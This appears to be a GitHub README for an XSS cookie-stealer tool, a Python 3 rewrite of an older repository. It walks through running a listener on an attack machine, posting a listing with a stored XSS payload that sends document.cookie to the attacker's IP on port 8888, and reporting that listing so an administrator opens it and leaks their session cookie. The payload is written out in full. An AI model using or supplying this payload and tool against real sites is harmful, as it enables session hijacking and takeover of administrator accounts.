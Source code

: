 # XSS-cookie-stealer.py
I recreated it with Python 3 because it is a very old repository. The original author of this work is @R0B1NL1N at github.com.



This is my circumstance, and I have the option of reporting to the admins, but there are a lot of other uses as well.

# How to use
1- Change IP address in the script.

![image](https://user-images.githubusercontent.com/102862377/203699668-456c24c0-4f15-4f12-a6c5-166f6089fa44.png)


2- Run the script.

`python3 XSS-cookie-stealer.py`

![image](https://user-images.githubusercontent.com/102862377/203699097-d805bf19-0ced-43f7-a9e6-f2dda7cfa813.png)

3- Create a new listing and enter the exploit script.

`<script>var i=new Image;i.src="http://(Your IP):8888/?"+document.cookie;</scirpt>`

![image](https://user-images.githubusercontent.com/102862377/203699802-2ec5643e-2717-4cd2-ab53-40b8dbf2c8af.png)

4- As soon as we submit, we should see our cookie appear on the http server running on our attack machine:

![image](https://user-images.githubusercontent.com/102862377/203699868-ab19e552-34e9-4aeb-9754-f34ad2b04ccb.png)

5- Let’s now click on the link and report listing to the admins:

![image](https://user-images.githubusercontent.com/102862377/203699911-513801f2-ebae-43fa-8127-80d6a6c56314.png)

6- Click ‘Report’ button and we should see the admin cookie appear on our http server:

![image](https://user-images.githubusercontent.com/102862377/203699989-a56ea191-92a7-4149-9781-6b286573e2a0.png)


